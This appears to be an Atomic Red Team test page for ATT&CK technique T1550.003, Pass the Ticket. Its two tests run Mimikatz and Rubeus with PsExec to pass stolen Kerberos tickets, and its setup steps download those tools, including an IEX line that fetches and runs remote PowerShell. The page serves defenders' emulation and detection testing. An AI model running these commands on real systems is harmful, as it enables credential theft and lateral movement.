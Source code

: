 # T1550.003 - Use Alternate Authentication Material: Pass the Ticket

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/003)

<blockquote>Adversaries may “pass the ticket” using stolen Kerberos tickets to move laterally within an environment, bypassing normal system access controls. Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account's password. Kerberos authentication can be used as the first step to lateral movement to a remote system.

When preforming PtT, valid Kerberos tickets for [Valid Accounts](https://attack.mitre.org/techniques/T1078) are captured by [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). A user's service tickets or ticket granting ticket (TGT) may be obtained, depending on the level of access. A service ticket allows for access to a particular resource, whereas a TGT can be used to request service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges to access.(Citation: ADSecurity AD Kerberos Attacks)(Citation: GentilKiwi Pass the Ticket)

A [Silver Ticket](https://attack.mitre.org/techniques/T1558/002) can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).(Citation: ADSecurity AD Kerberos Attacks)

A [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) can be obtained for the domain using the Key Distribution Service account KRBTGT account NTLM hash, which enables generation of TGTs for any account in Active Directory.(Citation: Campbell 2014)

Adversaries may also create a valid Kerberos ticket using other user information, such as stolen password hashes or AES keys. For example, "overpassing the hash" involves using a NTLM password hash to authenticate as a user (i.e. [Pass the Hash](https://attack.mitre.org/techniques/T1550/002)) while also using the password hash to create a valid Kerberos ticket.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Kerberos Ticket Attack](#atomic-test-1---mimikatz-kerberos-ticket-attack)

- [Atomic Test #2 - Rubeus Kerberos Pass The Ticket](#atomic-test-2---rubeus-kerberos-pass-the-ticket)

<br/>

## Atomic Test #1 - Mimikatz Kerberos Ticket Attack

Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows

**auto_generated_guid:** dbf38128-7ba7-4776-bedf-cc2eed432098

#### Inputs:

| Name         | Description                                                                                                                   | Type   | Default Value                                                                    |
| ------------ | ----------------------------------------------------------------------------------------------------------------------------- | ------ | -------------------------------------------------------------------------------- |
| ticket       | Ticket file name usually format of 'id-username&#92;@domain.kirbi' (e.g. can be dumped by "sekurlsa::tickets /export" module) | string |                                                                                  |
| mimikatz_exe | Path of the Mimikatz binary                                                                                                   | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;bin&#92;x64&#92;mimikatz.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
"#{mimikatz_exe}" "kerberos::ptt #{ticket}"
```

#### Dependencies: Run with `powershell`!

##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing)
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```

<br/>
<br/>

## Atomic Test #2 - Rubeus Kerberos Pass The Ticket

Requesting a TGT on a remote system and retrieving it locally before requesting a service ticket with it. This is a Pass-The-Ticket attack because the TGT is obtained on the remote system, then used from a different machine (local).
PsExec is used to execute commands on the remote system, and the "C$" admin share is used to retrieve the TGT, so the current user must have admin rights remotely and other PsExec prerequisites must be met.

**Supported Platforms:** Windows

**auto_generated_guid:** a2fc4ec5-12c6-4fb4-b661-961f23f359cb

#### Inputs:

| Name       | Description                                                           | Type   | Default Value                                                                                                  |
| ---------- | --------------------------------------------------------------------- | ------ | -------------------------------------------------------------------------------------------------------------- |
| target     | Remote system to request the TGT from                                 | string | localhost                                                                                                      |
| user_name  | username associated with the ticket (privileged account not required) | string | Administrator                                                                                                  |
| password   | password for user_name                                                | string | Password                                                                                                       |
| domain     | domain                                                                | string | $Env:USERDOMAIN                                                                                                |
| rubeus_url | URL of Rubeus executable                                              | url    | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
& "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -accepteula \\#{target} -w c:\ -c "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" asktgt /user:#{user_name} /password:#{password} /domain:#{domain} /outfile:ticket.kirbi
Set-Location "PathToAtomicsFolder\..\ExternalPayloads"
Move-Item -Force "\\#{target}\c$\ticket.kirbi" ticket.kirbi
Write-Host "Successfully retrieved TGT from '#{target}', now requesting a TGS from local"
& "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" asktgs /service:cifs/#{target} /ticket:ticket.kirbi /ptt
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\ticket.kirbi"
& "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" purge
```

#### Dependencies: Run with `powershell`!

##### Description: Rubeus must exist on disk at "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe"

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-Webrequest -Uri #{rubeus_url} -OutFile "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe"
```

##### Description: PsExec must exist on disk at "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe"

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PsTools" -Force
New-Item -ItemType Directory (Split-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe" "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -Force
```

<br/>
